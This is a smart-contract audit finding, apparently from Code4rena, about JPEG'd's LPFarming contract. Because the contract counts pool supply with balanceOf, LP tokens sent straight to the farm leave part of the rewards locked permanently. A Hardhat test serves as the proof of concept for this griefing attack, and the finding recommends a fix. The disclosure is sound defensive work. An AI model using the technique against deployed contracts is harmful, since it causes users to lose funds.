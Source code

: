 ## Tags

- bug
- 2 (Med Risk)
- disagree with severity
- resolved
- sponsor confirmed

# [rewards will be locked if user transfer directly to pool without using deposit function ](https://github.com/code-423n4/2022-04-jpegd-findings/issues/19) 

# Lines of code

https://github.com/code-423n4/2022-04-jpegd/blob/e72861a9ccb707ced9015166fbded5c97c6991b6/contracts/farming/LPFarming.sol#L190


# Vulnerability details

## Impact
###### LpFarming.sol
reward will be locked in the farming, when user execute a direct transfer with lpToken to farm without using deposit  

## Proof of Concept
"pls add this test to LpFarming.ts to check" 

```
it("a part of rewards can't be distributed if user execute a direct transfer to farm", async() => {
      // manual mine new block  
      await network.provider.send("evm_setAutomine", [false]);

      // prepare 
      const attacker = bob;
      await lpTokens[0].transfer(alice.address, units(1000));
      await lpTokens[0].transfer(attacker.address, units(1000));
      await lpTokens[0].connect(alice).approve(farming.address, units(1000));
      await mineBlocks(1);

      // attacker direct deposit lp token to the pool 
      await lpTokens[0].connect(attacker).transfer(farming.address, units(100));

      // create new pool
      await farming.add(10, lpTokens[0].address);
      await mineBlocks(1);
      expect(await farming.poolLength()).to.equal(1);

      let pool = await farming.poolInfo(0);
      expect(pool.lpToken).to.equal(lpTokens[0].address);
      expect(pool.allocPoint).to.equal(10);

      // create new epoch ==> balance of pool will be 1000 
      let blockNumber = await ethers.provider.getBlockNumber();
      await farming.newEpoch(blockNumber + 1, blockNumber + 11, 100);

      // alice deposit 
      await farming.connect(alice).deposit(0, units(100));
      await mineBlocks(1);

      expect(await jpeg.balanceOf(farming.address)).to.equal(1000);

      // when pool end, alice can just take 500 jpeg, and 500 jpeg will be locked in the contract forever !!!
      await mineBlocks(13);
      console.log("reward of alice: ", (await   farming.pendingReward(0, alice.address)).toString());
      expect(await farming.pendingReward(0, alice.address)).to.equal(BigNumber.from('500'));
    });
```
In the test above, the attacker transfers 100 lpToken to the farm without using deposit function, and alice deposit 100 lpToken. Because the contract uses ```pool.lpToken.balanceOf(address(this))``` to get the total supply of lpToken in the pool, it will sum up 100 lpToken of attacker and 100 lpToken of alice. This will lead to the situation where Alice will only be able to claim 500 token (at epoch.endBlock), the rest will be locked in the pool forever. Not only with this pool, it also affects the following, a part of the reward will be locked in the pool when the farm end.

## Tools Used
typescript 

## Recommended Mitigation Steps
Declare a new variable ```totalLPSupply``` to the struct ```PoolInfo```, and use it instead of ```pool.lpToken.balanceOf(address(this))```



